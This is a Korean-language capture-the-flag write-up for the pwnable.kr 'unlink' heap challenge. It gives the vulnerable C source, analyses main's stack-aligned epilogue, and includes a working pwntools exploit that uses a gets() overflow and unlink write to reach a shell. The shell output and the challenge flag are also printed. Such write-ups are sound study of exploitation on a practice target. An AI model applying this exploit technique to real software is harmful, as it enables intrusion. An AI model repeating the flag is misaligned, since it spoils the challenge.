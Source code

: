 # [pwnable.kr] unlink writeup



```shell
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

memory corruption 문제이다. unlink 얘기가 나오는걸 보니 heap 문제인듯



#### unlink.c

문제 파일은 다음과 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

double linked list의 unlink 과정을 직접 함수를 이용하여 구현하였다. OBJ A에서 `gets()`로 입력을 받기 때문에, heap overflow가 발생하여 A의 buf부터 B, C... 를 모두 덮을 수 있다.

OBJ B의 fd, bk를 조작하여 unlink() 과정을 통해 control flow를 shell()이 실행되도록 조작해보자.



친절하게도 stack 주소와 heap 주소를 제공해준다. 

맨 처음에 든 생각은 main 함수의 `ret`를 `shell()`로 덮어씌우는 거였지만, `unlink()`는 양 쪽 주소 모두에 값을 덮어씌우는 것이기 때문에(`*bk=fd`, `*(fd+0x4)=bk`), `shell()`의 주소에 값을 덮어씌울 수가 없어 불가능하다.



다음으로 생각한 방법은 `ebp`를 건드리는 것이었다.

 `main()`의 `ebp`가 아니라 `unlink()`의 `ebp`를 `shell()`의 주소가 저장되어 있는 heap 주소 - 0x4로 덮는다면, unlink()가 종료되고 heap 공간을 stack처럼 사용하다가, `main()`의 `leave; ret`이 실행되면서 `shell()`이 실행될 것이라는 각을 세웠다.



아니 근데... 흥항ㅎ앟ㅇ 하면서 시도하다가, 유심히 살펴보니 main()의 함수의 에필로그 동작이 다음과 같다는 것을 발견했다..

```shell
   0x08048602 <+211>:	leave  
   0x08048603 <+212>:	lea    esp,[ecx-0x4]
   0x08048606 <+215>:	ret   
```



;; 가끔 `main()`의 prologue와 epilogue가 아주 전형적인 prologue, epilogue가 아니라 위와 같이 push를 좀 더 많이 하며 ecx를 사용하는 경우가 있다.

이는 stack에서의 main() 함수의 시작을 16byte 단위로 정렬하기 위함이다. 사실 이런 현상은 다른 서브 함수에 대해서는 caller들이 메모리를 정렬해 주기 때문에 `main()`에서 밖에 관찰할 수 없다.



결국 저녀석도 esp를 조작하기 위함이니 해당 에필로그 동작에 맞춰 control flow를 조작하는 방법밖에 없는 듯하다.

자세히 살펴보면 `main_ebp-0x4`에 있는 값에서 0x4만큼 뺀 값을 esp로 저장하기 때문에, 결국 `main_ebp-0x4`에 `shell()` 주소가 담겨있는 `heap 주소 - 0x4`를 저장하면 된다!

#### payload

```python
# /usr/bin/python
from pwn import *

r = process("/home/unlink/unlink")

stack_addr = int(r.recvline().split(':')[1], 16)
heap_addr = int(r.recvline().split(':')[1], 16)
ebp_addr = stack_addr + 0x14

r.recvuntil('get shell!\n')

print(hex(stack_addr))
print(hex(heap_addr))

payload = "A"*8
payload += p32(0)
payload += p32(0x19)
payload += p32(heap_addr + 0x24)
payload += p32(ebp_addr - 0x4)
payload += p32(0x080484eb)

r.sendline(payload)
r.interactive()
```



```shell
[+] Starting local process '/home/unlink/unlink': Done
0xffd99b54
0x9d5f410
>
[*] Switching to interactive mode
$ id
uid=1094(unlink) gid=1094(unlink) egid=1095(unlink_pwn) groups=1095(unlink_pwn),1094(unlink)
$ cat /home/unlink/flag
conditional_write_what_where_from_unl1nk_explo1t
```


